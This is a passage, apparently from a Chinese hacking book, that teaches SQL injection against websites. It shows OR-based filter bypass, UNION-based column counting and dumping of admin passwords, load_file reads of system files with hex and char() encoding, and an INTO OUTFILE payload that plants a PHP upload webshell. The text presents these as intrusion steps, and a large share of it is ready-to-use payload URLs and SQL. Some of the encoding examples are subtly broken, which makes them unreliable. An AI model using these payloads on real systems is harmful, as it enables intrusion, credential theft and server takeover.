

然后访问数据库的地址，在一堆乱码中，如果能看到“类型不匹配：execute”的标准一句话写出错误提示，说明提交是成功的，如图27、图28所示。




把 `http://www.xxx.com/e/pop/database/data.asp` 这个数据库的地址填入到一句话马的客户端提交地址，即可以得到 WEBSHELL。接着就可以通过这个小马提交大马，把地址填入，将大马代码输入，再输入正确的密码，提交即可，如图29所示。


## 6 如果过滤了“and=”，还能否注入？

在我们以前学习的经典 SQL 注入中，都是用 `and 1=1` 和 `and 1=2` 来判断注入点，并使用其闭合语句进行左右判断来分析注入结果，似乎注入的核心都在 `and 1=1` 和 `and 1=2`。那么如果 `and 1=1` 和 `and 1=2` 被网站过滤了，还能注入吗？

回答是肯定的，能！一般常用的检测注入漏洞的方法是在 URL 后面加 `and 1=1` 和 `and 1=2` 来检测，这种教科书式的“and =”检测法是利用数据库命令中的逻辑关系“与”来进行的。

简单地说，就是在 URL 本身的语句后面再用 and 命令强行加上一个其他语句，让这个新加的语句能和 URL 中本身包含的语句一起被执行，即 and 左边和右边的语句是都被执行的。

and 这里起的作用是把两个语句“粘”到一起提交进数据库。如果 and 前面的语句和后面的语句结果都是正确，则逻辑“与”的关系为真。如果存在注点，and 前后的语句都被执行了，并且 and 后面是 `1=1` 这个绝对为真的结果时，页面返回应该是正常的。

提交的值如果改成了 `1=2` 这个绝对为假的结果，这时的情况是：and 前面的语句绝对正确，而后面的 `1=2` 绝对错误，逻辑“与”为假，则返回错误页面。这样就可以以此为依据来判断 and 后的语句是否被数据库执行了。

And 和 or 都属于计算机三种逻辑关系中的运算符，三种基本逻辑关系如下：

- 1. “与”逻辑关系和“与”运算对应 and  
  “与”逻辑的含义是：当决定某一事物结果的所有条件都同时具备时，结果才能发生。这种条件和结果间的因果关系称为“与逻辑”。
- 2. “或”逻辑关系和“或”运算对应 or  
  “或”逻辑的含义是：在决定某一事物结果的所有条件中，只要有一个或一个以上的条件具备时，结果就会发生。这样的因果关系称为“或逻辑”。
- 3. “非”逻辑和“非”运算  
  “非”逻辑的含义是：当条件不具备时，结果才发生。这样的因果关系称为“非”逻辑。  
  “非”逻辑表达式可以写成 \(Z=\overline{A}\)，其中 \(\overline{A}\) 读作 A 非或 A 反。

如果在入侵中，“and、=”这些关键字被网站过滤了，我们可以利用另一种逻辑关系“或”来检测注入，这种逻辑关系的表达词为 or，即在 URL 后提交 **or 2>1 or 1>2** 来检测，如图30所示。


图30

这是 ID 为 1344 的 URL 后加上 OR 注入语句的返回结果，直接提交 URL 不加注入语句返回的是名为“王立山”的页面，此为正常页面，如图31所示。



图31

从图30和图31可以看到，与 and 注入不同，当 `or 2>1` 时返回的是错误页面，而 `1>2` 时返回的是正确页面，这是逻辑“或”是否成立的判断条件决定的。  
and 注入是要求前后两个语句 A 和 B 都正确才为真，or 注入只要求前后两个语句只要 A 或 B 有一个正确就为真。如果 A、B 两个语句都是正确的，反而不满足 A、B 中只有一个是正确的这个结果为真的条件了。

> 请记住：or 注入时，or 后面的语句如果是正确的，则返回错误页面；如果是错误，则返回正确页面，说明存在注入点。

明白了判断语句正确与否之后，or 的注入和用 and 注入的语句差别并不大。另外，`2>1` 和 `1=1` 是等价的，都是一个执行结果正确的语句。下一步我们试试如何进行 or 注入来猜解表名。

```sql
or exists(select * from [admin])
```

这是用 or 注入的语句，对应的 and 注入语句是：`and exists(select * from [admin])`。  
返回是正常页面，如图32所示，说明 or 后面提交的 `exists(select * from [manage])` 是错误的，数据库中并不存在 manage 表。按注入的常见手法替换表名，直到页面返回错误。我们把表名换成 admin 试试，如图33所示。

这说明 or 后面执行的语句是正确的，这时的表名存在。最后在数据值的猜解上不要用 `=` 号，用 `>` 号和 `<` 号进行猜解。如猜解 username 字段中数据长度，语句为：

```sql
(select top 1 len(username) from Admin)>4
(select top 1 len(username) from Admin)>5
```

页面返回正常，说明此时语句结果是错误的了，长度不大于 5。那么想想，哪个数大于 4 而不大于 5 呢？小学数学告诉我们，这个数是 5！接着可以继续重复这个过程，直到得出全部结果。

用 or 逻辑关系来注入，总体上与 and 注入并无区别，它的优势是能够绕过对 and 这个关键词的过滤。此外有点小窍门，在注入判断语句时最好用大于符号 `>`，因为小于符号 `<` 和等于符号 `=` 也是常被过滤的字符，而大于符号 `>` 正好绕过这种过滤，又能形成判断关系。


图32


图33

## 7 什么叫联合查询？

> 联合查询就是将两个或两个以上 SELECT 语句的查询结果合并成一个结果集合显示，两个查询之间用 union 连接。执行联合查询的 union 句式为：查询1 union 查询2。

左边的查询1是在网站中被正常执行的 SQL 语句，union 及查询2都是我们进行注入的内容。

为了更形象地说明，请看表1。假设现在有 admin 及 UnionTest 两个表，admin 表中包括 ID、username、password、lever 四个字段；UnionTest 表中包括 un1、un2、un3、un4 四个字段。

表1

| 表 ADMIN 中的字段 | 表 UnionTest 中的字段 |
|---|---|
| ID | Un1 |
| username | Un2 |
| password | Un3 |
| lever | Un4 |

如果要查询 admin 表中的字段，执行 SQL 语句：`Select count(*) from admin`。返回的结果中将包括 ID、username、password、lever 四个字段；如果我们将 admin 表和 UnionTest 表一起组合起来联合查询会出现怎样的结果呢？当然是显示两个表中查询内容的结果集。

```sql
Select count(*) from admin union select count(*) from UnionTest
```

返回的结果将是 ID、un1、username、un2、password、un3、lever、un4 这八个在两个表中存在的字段。这是正常联合查询的情况，在 SQL 注入中我们又是怎么利用联合查询的呢？

## 第一章：数据库入侵相关技术

前面我们使用的这个联合查询语句里，左边是查询 admin 表，右边是查询 UnionTest 表，假如右边的查询也是和左边一样，那么会出现什么情况呢？这就相当于查询同一个表的内容。打个或许并不太贴切的比方，联合查询的注入就好像是在 union 的右边给左边的表造一个镜子，把左边的内容映射到右边。

联合查询在 MySQL 注入时非常有效，不过在 Access 和 MSSQL 注入中也可以通用。联合查询有一个限制，要求前面的 select 语句和后面的 select 语句所查询的字段数要一样，否则会出错。利用这一点，黑客常用来查询字段数目使用的语句是：

```text
http://www.xxx.com/down.asp?id=233 and 1=1 union select 1,2,3
```

提交到 SQL 内执行的语句类似：

```sql
Select count(*) from admin union select 1,2,3
```

这种形式。前面提到过，联合查询的左右字段数目要求一样，也就是说 count(*) 中返回的字段数要等于 1、2、3、4 四个，如果不等，就会提示出错，如图34所示。


图34

注入的时候在后面查询语句中继续添加字段数目，一直匹配到页面不出错为止。如图35所示，在加到 4 个字段时终于返回了正常页面，说明 union 左右的字段数是相等的，该表中存在四个字段。


图35

通过在联合查询后添加不同的位数，再结合返回的信息，可以迅速确定该查询语句前面那条查询语句的字段数目。利用联合查询还可以猜测数据库里面数据表的名称，比如用：

```text
http://www.xxx.com/down.asp?id=233 and 1=1 union select 1,2,3,4 from admin
```

语句请求页面。如果库里面不存在 admin 表，那么会返回错误信息，利用这个办法可以猜测数据库中的数据表。接着还可以猜测表中的字段，把其中一个字段 ID 位置换成你要查的字段名，比如：

```text
http://www.nohack.com/down.asp?id=233 and 1=1 union select 1,username,3,4 from admin
```

以上只是简单介绍了联合查询比较常规的用法，Union 查询还可以和其它的函数结合，最常见的是结合 load_file 函数来读取系统本地文件，常用语句 `select load_file('c:\boot.ini')`。不过这个语句存在两个问题：首先，需要给 load_file() 函数传递一个字符串参数，这里包含了单引号，提交的时候会被 PHP 转义，所以要用 16 进制表示字符串的方法。前面提到的语句中的 `('c:\boot.ini')` 要转义成 `0x633A2F626F6F742E696E69`。

```text
http://www.nohack.com/telist.asp?id=1344 and 1=1 Union select 1,load_file(0x633A2F626F6F742E696E69),3
```

其次，我们需要在页面上找到一个显示数据库中查询信息的位置，用来回显我们 load_file 的结果。可以通过在联合查询正确语句前用 1=2 屏蔽 union 左边语句的正常显示，这样就可以清晰地看到在页面上哪些位置是显示信息的。例如提交 `http://www.nohack.com/telist.asp?id=1344 and 1=2 union select 1,2,3,4/*`，如图36所示。



图36

图35中对应的 1、2、3、4 处都能用来回显文件的内容，但是在数据库中有的字段返回数据的大小和类型是有限制的，比如图35中数字 2 的那个位置。这个位置一般从数据库获得的内容很可能是发表文章的时间，它的大小、类型都是有限制的，所以提交 load_file 时最好不要占用数字 2 这种位置，以免文件内容从数字 2 处显示时不正常或装不下。具体入侵时可以多试几个字段位置，这里我们占用数字 3 的位置；提交语句 `http://www.xxx.com/telist.asp?id=1344 and 1=2 union select 1,2,load_file(0x633A2F626F6F742E696E69),4/*`，这样在刚才显示数字 3 的位置成功显示出 `c:\boot.ini` 的内容，如图37所示。

联合查询作为注入技术的一个分支，要好好掌握，在某些特定情况下，一般的注入手段不行，只有联合查询可以进行，特别是在 MySQL 数据库的注入中，联合查询能让我们最快地得到结果。


图37

## 8 MYSQL 注入该如何利用？

MySQL 注入的检测与 MSSQL 和 Access 注入并无区别，同样是利用 and 1=1 和 and 1=2 的返回不同来进行判断。另外有一点小规律，得到 MySQL 数据库绝对路径比 MSSQL 数据库容易，一般在出错页面中就会暴出绝对路径，而不用像 MSSQL 数据库那样列目录找绝对路径，如图38所示。



图38

MYSQL 数据库的使用越来越普遍，注入技术也可谓“博大精深”，本书将有好几个章节介绍 MYSQL 注入这门很重要的入侵技术，下面进入正题。

如果说 Access 注入主要依靠查询，MSSQL 注入主要依靠“暴”的话，MySQL 则在这两者之间，它的注入过程兼具查询和“暴”的特点，采用的是一种称为“联合查询”的方法来包含注入语句。关于“联合查询”的详细介绍，大家可以看前面的相关章节。

构建联合查询语句的第一步是猜解数据库中包含的表段。联合查询有一个特点，就是要求左右两边的查询对象表的字段要相同，只有相同的联合查询才能正常执行。通常的使用语句是：`and 1=1 union select 1,2,3,4/*`，如图39所示。



图39

and 1=1 是保证 union 前的语句结果为真，相当于一个开关，当写成 1=2 时，前面的语句为假，联合查询会在网站上显示我们提交的 union 右边的执行结果。Select 语法 1,2,3 是用来猜测存在几个字段，可以一直增加直到返回正确页面。数字之间用逗号隔开，`/*` 是一个注释符，注释程序中后面的语句，能保证提交的语句不被干扰。

```sql
and 1=1 union select 1,2,3,4/*
```

时页面返回正确，说明数据库中存在 4 个字段，至此我们完成了关键的一步，联合查询的句式对了。接下来查询关键表名，例如管理员表，使用的语句是：

```sql
and 1=1 union select 1,2,3,4 from admin/*
```

前面这个语句是猜解是否存在 admin 表，可以不断更换要查询是否存在的表名。如果数据库中存在该表会返回正确页面，得到管理员表之后查询字段，语句是：

```sql
and 1=1 union select 1,password,3,4 from admin/*
```

字段如果存在将返回正常页面，如图40所示。



图40

得到了字段和表名，如何得到字段内容？很简单，还记得前面说的那个 1=1 的开关吗？我们改成 1=2 提交，并补上 where 作为查询条件，就会在页面上“暴”出字段内容。提交语句：

```sql
and 1=2 union select 1,password,3,4 from admin where id=1/*
```

如图41、图42所示，分别为 1=1 和 1=2 后的显示结果比较图。



图41



图42

经过比较可以看到，在图40中“realplayer 10.5.6.0.12.1340 简体版”处显示查询软件名称的地方，在图41中被暴出了一个 MD5 加密的密码。MySQL 数据库在猜解表名、字段名时和 Access 的查询颇为相似，但在得到字段内容时又不像 Access 数据库要经过漫长的猜测，而是直接暴出内容，这与 MSSQL 注入得到的方法相似。正如本节开篇所讲，MySQL 的注入兼具查询和“暴”的特点，显得更加灵活。

## 9 MYSQL 注入能不能直接导出 WEBSHELL？

MySQL 注入理论上是能够像 MSSQL 数据库注入一样，在知道绝对路径且权限足够的前提下导出一个 WEBSHELL 的。至于为什么又说是“理论上”，这个我们以后再讲。先来学习一下如何在 MySQL 数据库下导出一个 WEBSHELL。

假设现在我们已经拥有了一个 MySQL 数据库的注入点，在此之前我们已经通过本书介绍的其它方法获得了网站的绝对路径 `d:\webdev/apache/htdocs`，现在就将我们的 PHP 一句话木马导出语句代入这条语句之中。

在注入点提交：

```sql
and 2=1 union select "<?php $msg = copy($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]) ? \"上传成功\" : \"上传失败\";echo $msg;?>" into outfile "d:\\webdev/apache/htdocs/p.php"
```

其中前面引号中的 `<?php $msg = copy($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]) ? "上传成功" : "上传失败";echo $msg;?>` 是 PHP 一句话木马的内容；`d:\webdev/apache/htdocs/` 为 WEB 绝对路径；`p.php` 是生成的文件名。现在访问 URL 中的 `p.php` 即可见到我们的一句话木马，如图43、图44所示。





图43

图44

在这个站点的例子中，我们做到了通过注入点导出一个 WEBSHELL，但是刚才说过了，MySQL 导出为 WEBSHELL 只是理论上可行，那么限制我们实际应用的是什么呢？答案就是 PHP 安全设置中的 `magic_quotes_gpc` 选项。在该选项打开的情况下进行注入时，引号这个特殊符号会被转义成多个引号，即 `"` 变为 `\"`，或者在后面加上 `/` 斜线。


图45

如图45所示，在搜索页面中提交的检测字符 `nohack'` 的单引号前被加上了一个 `\`，这是典型的 `magic_quotes_gpc=on` 现象。这样提交的语句自然是错误的，无法被执行。

不过一句话木马部分代码可以通过转义为类似十六进制 `0x43C434UH58L94R` 的书写形式，这样可以避免使用引号。例如：

```text
load_file('c:/boot.ini') 转化后成为：
load_file(char(108,111,97,100,95,102,105,108,101,40,39,99,58,47,98,111,111,116,46,105,110,105,39,41))
```

转化成 char 字符串有专门的工具，打开工具，将要转化的字符写到“输入框”，然后单击“转换”按钮，复制出“条件 ASCII”中间的那一行字符就是转化后的结果，如图46所示。



完整的 URL 链接就是：

```text
http://www.xxx.com/down.php?id=1%20and%201=2 union select 1,2,load_file(char(108,111,97,100,95,102,105,108,101,40,39,99,58,47,98,111,111,116,46,105,110,105,39,41)),4,5,6
```

但是 outfile 后的绝对路径却无法通过转义回避引号，因为它是 select 的函数。而在 PHP 的默认设置中，除了极老的版本，`magic_quotes_gpc` 选项都是打开的，所以笔者才在前面说，这种方法只是“理论上”可行。

## 10 如何使用 MSSQL 查询分析器？

MSSQL 的查询分析器是 MSSQL 自带的数据库操作工具，能很直观地显示命令执行的返回结果，如果语句出错会给出详细的出错提示。这个工具对于我们学习数据库语句、测试 SQL 注入结果、反弹式注入等方面都是必不可少的，这一节我们来讲讲它的用法。

